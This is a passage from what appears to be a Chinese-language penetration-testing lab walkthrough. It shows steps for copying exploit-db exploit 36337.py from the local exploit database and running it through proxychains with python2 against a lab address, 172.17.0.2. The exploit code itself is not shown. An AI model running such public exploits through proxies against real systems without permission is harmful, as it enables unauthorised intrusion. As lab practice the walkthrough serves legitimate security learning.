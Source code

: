 ![image-20230903111333679](../资源文件/图片/image-20230903111333679.png)

2.把查找到的36337.py复制到当前目录使用

```
cp /usr/share/exploitdb/exploits/linux/remote/36337.py .
```

![image-20230903111535615](../资源文件/图片/image-20230903111535615.png)

3.挂proxychains攻击目标`172.17.0.2`

```
proxychains python2 36337.py 172..17.0.2
```

> 查看脚本发现是python2的脚本，所以用python2运行

![image-20230903111919489](../资源文件/图片/image-20230903111919489.png)
